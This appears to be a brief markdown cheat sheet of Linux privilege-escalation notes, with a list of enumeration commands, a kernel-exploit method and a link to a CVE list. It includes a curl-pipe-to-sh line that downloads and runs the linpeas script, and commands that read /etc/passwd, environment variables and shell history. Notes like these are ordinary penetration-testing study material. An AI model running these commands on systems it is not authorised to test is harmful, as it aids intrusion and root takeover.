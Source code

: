 # privellege escilation

## Enumaration

```hostname```
```uname -a```
```cat /proc/version```
```cat /etc/passwd```
```env```
```history```

# Automated tools

```curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh```

## kernel exploits 
Privilege escalation ideally leads to root privileges. This can sometimes be achieved simply by exploiting an existing vulnerability, or in some cases by accessing another user account that has more privileges, information, or access.


The Kernel exploit methodology is simple;

* Identify the kernel version
* Search and find an exploit code for the kernel version of the target system
* Run the exploit

Most of the cves can be found in [linux exploit cves]( https://www.linuxkernelcves.com/cves )

